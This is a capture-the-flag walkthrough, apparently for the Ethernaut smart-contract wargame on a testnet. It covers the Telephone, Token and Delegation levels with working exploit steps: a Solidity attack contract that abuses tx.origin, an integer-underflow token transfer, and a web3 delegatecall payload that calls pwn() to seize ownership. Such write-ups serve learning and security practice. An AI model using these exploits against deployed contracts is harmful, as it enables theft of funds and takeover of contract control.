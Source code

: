 
### 4. Telephone
- `msg.sender`: direct sender of the message, so can be a contract
- `tx.origin` gives the origin of the transactions, so in practice this will always be a user, an External Owned Account

**Solution**
- Creating a contract that will call `changeOwner` function of Telephone contract. That would lead to `(tx.origin != msg.sender)` because `tx.origin` is our EOA, `msg.sender` is the newly created contract. With that condition being met, we can set `newOwner` to our `player` address
  ```solidity
  function attack(address _owner) public {
        challenge.changeOwner(_owner);
  }
  ```

- `brownie console --network rinkeby`
```bash
>>> challenge_address = '...'

# deploying attack contract
>>> attackContract = TelePhoneAttack.deploy(challenge_address, {'from': hacking_account})

>>> _owner = hacking_account.address

>>> attackContract.attack(_owner, {'from': hacking_account})
```


### 5. Token
*overflow problem*

`brownie console --network Rinkeby`

```bash
>>> challenge_address = '...'
>>> token = Token.at(challenge_address)
>>> token.balanceOf(hacking_account.address)
20
>>> randomAddress = ZERO_ADDRESS
# - `20 - 20 - 1` this equation will return overflow
>>> token.transfer(randomAddress, 21, {'from':hacking_account})
```

### 6. Delegation
Just using the browser console

```js
await contract.owner()
'0x9451961b7Aea1Df57bc20CC68D72f662241b5493'
// the data_payload need to do the job of calling `pwn` function which is public in Delegate contract
data_payload = web3.eth.abi.encodeFunctionSignature({
    name: 'pwn',
    type: 'function',
    inputs: []
})

// send transaction so that the fallback function triggered, then it will `delegatecall` to Delegate contract
await web3.eth.sendTransaction({
    from: player,
    to: instance,
    data: data_payload
})
⛏️ Sent transaction ⛏
⛏️ Mined transaction ⛏
```